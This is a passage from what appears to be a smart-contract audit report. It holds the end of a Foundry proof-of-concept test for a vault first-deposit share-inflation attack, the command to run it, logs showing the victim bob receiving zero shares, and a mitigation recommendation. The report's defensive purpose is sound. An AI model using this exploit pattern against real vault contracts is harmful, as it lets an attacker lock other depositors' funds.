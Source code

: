 ```solidity
        vm.stopPrank();

        vm.startPrank(bob);

        token.mint(bob,10e18 + 10);
        token.approve(address(staking), 1e18);
        staking.deposit(1e18, bob);
        vm.stopPrank();

        uint256 bobShares = staking.balanceOf(bob);
        console.log("bob shares : ");
        console.log(bobShares);

        vm.stopPrank();

        vm.startPrank(alice);

        staking.redeem(staking.balanceOf(alice), alice, alice);
        uint256 afterAssetBalance = token.balanceOf(alice);
        console.log("attacker balance after : ");
        console.log(afterAssetBalance);
        vm.stopPrank();

    }
}
```

Run the test :

```shell
forge test --match-test test_initial_deposit_grief -vvv
```

Log output :

```shell
Logs:
  attacker balance before :
  11000000000000000010
  bob shares :
  0
  attacker balance after :
  10909090909090909100
```

It can be observed that alice can lock `1 ETH` of bob's asset at the cost of `~ 0.1 ETH`.

## Recommendations

Consider mitigating this with an initial deposit of a small amount

# [M-02] Owner can `rescue()` pool tokens in certain cases
